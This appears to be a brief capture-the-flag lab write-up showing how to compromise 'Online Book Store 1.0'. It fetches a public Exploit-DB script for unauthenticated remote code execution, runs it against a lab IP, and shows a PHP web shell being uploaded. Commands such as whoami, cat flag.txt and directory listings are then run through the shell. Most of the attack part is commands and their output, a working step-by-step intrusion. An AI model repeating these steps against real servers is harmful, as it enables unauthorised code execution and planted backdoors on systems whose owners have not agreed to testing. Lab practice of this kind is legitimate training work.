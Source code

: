 1- First search on Exploit-DB about Online Book Store Vulnerability, then download the .py file from Online Book Store 1.0 - Unauthenticated Remote Code Execution, change the .py file name to exploit.py

2- Run below scripts
```
root@ip-10-10-7-48:~# python exploit.py http://10.10.59.185
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.59.185/bootstrap/img/zUlCikEeBa.php
> Example command usage: http://10.10.59.185/bootstrap/img/zUlCikEeBa.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ exploit.py -u http://10.10.59.185 -c "whoami"

RCE $ exploit.py -u http://10.10.59.185 -c "cat flag.txt"

RCE $ ls /
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old

RCE $ cd /var/www/html/bootstrap

RCE $ ls
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg
zUlCikEeBa.php
```